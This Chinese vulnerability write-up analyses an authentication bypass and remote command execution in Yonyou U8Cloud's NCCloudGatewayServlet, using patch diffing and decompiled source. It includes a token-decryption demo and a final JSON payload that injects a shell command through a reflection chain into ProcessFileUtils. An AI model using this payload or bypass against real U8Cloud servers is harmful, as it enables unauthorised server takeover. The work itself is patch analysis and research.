# 用友U8Cloud所有版本NCCloudGatewayServlet命令执行漏洞分析-先知社区

> **来源**: https://xz.aliyun.com/news/19022  
> **文章ID**: 19022

---

# 前言

昨天在复现`ServiceDispatcherServlet`反序列化时发现U8C补丁又更新了，刚更新并且还是命令执行这种漏洞，赶紧学习一下，还是一样本人小菜，有啥不太对的地方欢迎各位佬们指出。

# 漏洞分析

## 权限绕过代码分析

先瞅瞅是哪个类，公告上给了个`NCCloudGatewayServlet`，但是用命令行搜索后发现其实并没有这一个类。

​



于是下载了补丁，希望从补丁中找到一点思路。



发现是`ServletForGW`这个`servlet`类，这个类和`NCCloudGatewayServlet`有啥关系呢，其实全局搜索一下就知道了。



​

可以看到这个声明哈，就是把`NCCloudGatewayServlet`这个名字和`ServletForGW`类关联了一下。

构造个路由`/service/NCCloudGatewayServlet`访问一下可以发现 `您没有请求该服务的权限`



​

所以应该还是要过鉴权的，可以大概的瞅瞅代码。



​

看到`doAction`，开始第一行就是一个`checkGateWayToken`，并且接收请求头为`gatewaytoken`的参数，跟进去。



​

这段鉴权还是挺简单的，就是从`nccloud.gateway.nctoken`拿到`key`然后解密一下，再拿我们传入的`token`和这个解密的值进行对比，如果一样就可以了。



​

我的`key`为`goimfdnalmcffdjciilkpokdaogklcdofkipilehgahfkgnpknbngcjfaeeomalj`，调用一下这个解密方法，解密一下就为`token`了。

demo如下：

```
package ctf.challenge;

import nc.vo.framework.rsa.Encode;

public class decode {
    public static void main(String[] args) {
        String nctoken = (new Encode()).decode("goimfdnalmcffdjciilkpokdaogklcdofkipilehgahfkgnpknbngcjfaeeomalj");
        System.out.println(nctoken);
    }

}

```



​

ok了，放到`yakit`里面，成功过了鉴权。



## 命令执行代码分析

还是再阅读一下源码，我最开始的思路是看哪里可以进行命令执行，扫了一下好像没有发现可以直接命令执行的地方，但是一眼就看到了这个`invokeMethod`，既然没有直接执行的地方，那调用一个`Runtime`不是就可以了？



跟进去瞅瞅，果然就是一个调用方法的函数，代码如下：

```
    public static Object invokeMethod(Object object, String methodName, Object[] args, Class<?>[] parameterTypes) throws NoSuchMethodException, IllegalAccessException, InvocationTargetException {
        parameterTypes = ArrayUtils.nullToEmpty(parameterTypes);
        args = ArrayUtils.nullToEmpty(args);
        Method method = getMatchingAccessibleMethod(object.getClass(), methodName, parameterTypes);
        if (method == null) {
            throw new NoSuchMethodException("No such accessible method: " + methodName + "() on object: " + object.getClass().getName());
        } else {
            return method.invoke(object, args);
        }
    }
```



那这也是很经典了，简单构造一下`payload`。

```
{
  "serviceInfo": {
    "serviceClassName": "java.lang.Runtime",
    "serviceMethodName": "exec",
    "serviceMethodArgInfo": [
      {
        "agg": false,
        "isArray": false,
        "isPrimitive": false,
        "argType": { "body": "java.lang.String" },        
        "argValue": { "body": "calc" },
      }
    ]
  }
}

```

本来以为到这里这个漏洞就可以美美结束了，结果他还有调用限制的。

​



​

这里调用对类有一定要求，调用的类必须是他自己的业务组件。

没啥思路，还是去看看补丁是咋补的。

​





​

果然加了个鉴权，把那个鉴权绕过给修了，还多加了一个`GWWhiteCtrlUtil`,看这个类的最后面，这里还给加了个黑名单，这说明什么，肯定是黑名单里面的类可以用才ban的赛。

代码如下

```
public void checkBlackITFAuthority(String serviceClassName, Object[] argValues) throws BusinessException {
    if ("com.ufida.zior.console.IActionInvokeService".equalsIgnoreCase(serviceClassName) && "nc.bs.pub.util.ProcessFileUtils".equalsIgnoreCase(String.valueOf(argValues[0]))) {
        Logger.error("目前没有查【nc.bs.pub.util.ProcessFileUtils】接口权限");
        throw new BusinessException("目前没查询【nc.bs.pub.util.ProcessFileUtils】接口权限");
    } else {
        if ("nc.itf.uap.IUAPQueryBS".equalsIgnoreCase(serviceClassName)) {
            String argSql = ((String)argValues[0]).toLowerCase();
            String[] var7;
            int var6 = (var7 = BannedSqlWord).length;

            for(int var5 = 0; var5 < var6; ++var5) {
                String word = var7[var5];
                if (argSql.contains(word)) {
                    Logger.error("SQL语句中存在敏感词:" + word);
                    throw new BusinessException("SQL语句中存在敏感词:" + word);
                }
            }
        }

    }
}
```



​

可以发现主要对俩个类进行了限制`com.ufida.zior.console.IActionInvokeService`和`nc.bs.pub.util.ProcessFileUtils`，去看看这俩个类有啥用。

​

`IActionInvokeService`是个接口，直接看实现吧也就是`ActionInvokeService`。

​

```
public class ActionInvokeService implements IActionInvokeService {
    public ActionInvokeService() {
    }

    public Object exec(String actionName, String methodName, Object paramter) throws Exception {
        Logger.init("iufo");
        AppDebug.debug("ActionInvoke: " + actionName + "." + methodName + "()");
        return ActionExecutor.exec(actionName, methodName, paramter);
    }
}
```

​

其实看到这个名字和接收的参数就知道了，又是一个调用方法的函数，跟进`ActionExecutor.exec`。

```
    static Object exec(String actionName, String methodName, Object paramter) throws Exception {
        if (actionName != null && methodName != null) {
            Object action = Class.forName(actionName).newInstance();
            String key = actionName + ":" + methodName;
            Method m = (Method)map_method.get(key);
            Class result;
            if (m == null) {
                result = action.getClass();

                try {
                    m = result.getMethod(methodName, Object.class);
                } catch (NoSuchMethodException var13) {
                    Method[] mthds = result.getMethods();
                    Method[] var9 = mthds;
                    int var10 = mthds.length;

                    for(int var11 = 0; var11 < var10; ++var11) {
                        Method mthd = var9[var11];
                        if (methodName.equals(mthd.getName())) {
                            m = mthd;
                            break;
                        }
                    }
                }

                if (m != null) {
                    map_method.put(key, m);
                }
            }

            if (m == null) {
                throw new IllegalArgumentException("Mthod " + methodName + " not exists.");
            } else {
                result = null;
                Class<? extends Object>[] types = m.getParameterTypes();
                Object result;
                if (types != null && types.length >= 1) {
                    if (types.length == 1) {
                        if (paramter != null && paramter.getClass().isArray()) {
                            result = m.invoke(action, paramter);
                        } else {
                            result = m.invoke(action, paramter);
                        }
                    } else {
                        result = m.invoke(action, (Object[])((Object[])paramter));
                    }
                } else {
                    result = m.invoke(action);
                }

                return result;
            }
        } else {
            throw new IllegalArgumentException();
        }
    }
```

​

就是一个反射调用，很经典了呀，盲猜用之前那个反射调用这个方法，然后再用这个方法反射另外一个方法。

​

看到`nc.bs.pub.util.ProcessFileUtils`这个类，开头就是王炸呀，直接一个`Runtime.getRuntime().exec`就砸到脑瓜子上了。

​



那这思路就很清楚了，`ServletForGW`->`IActionInvokeService`->`ProcessFileUtils`。

​

# Payload构造思路

这里payload主要是下面几点一定要有，首先是触发类的invoke的参数，这里有`serviceInfo`，`serviceClassName`,`serviceMethodName`,`serviceMethodArgInfo`。

​



然后就是下面这里就是上面那些的实际参数，比如`argType`就是方法接收参数的类型， `argValue`就是实际参数和`argType`相对应。



然后就是一次次的尝试和修改了，主要还是要关注报错以及调试。

最终payload：

```
{
  "serviceInfo": {
    "serviceClassName": "com.ufida.zior.console.IActionInvokeService",
    "serviceMethodName": "exec",
    "serviceMethodArgInfo": [
      {
        "argType": {"body":"java.lang.String"},
        "argValue": {"body":"nc.bs.pub.util.ProcessFileUtils"},
        "agg": false,
        "isArray": false,
        "isPrimitive": false
      },
      {
        "argType": {"body":"java.lang.String"},
        "argValue": {"body":"openFile"},
        "agg": false,
        "isArray": false,
        "isPrimitive": false
      },
      {
        "argType":{"body":"java.lang.String"},
        "argValue":{"body":"cat.txt "|calc;""},
        "agg": false,
        "isArray": false,
        "isPrimitive": false
      }
    ]
  }
}

```

成功弹出计算器。




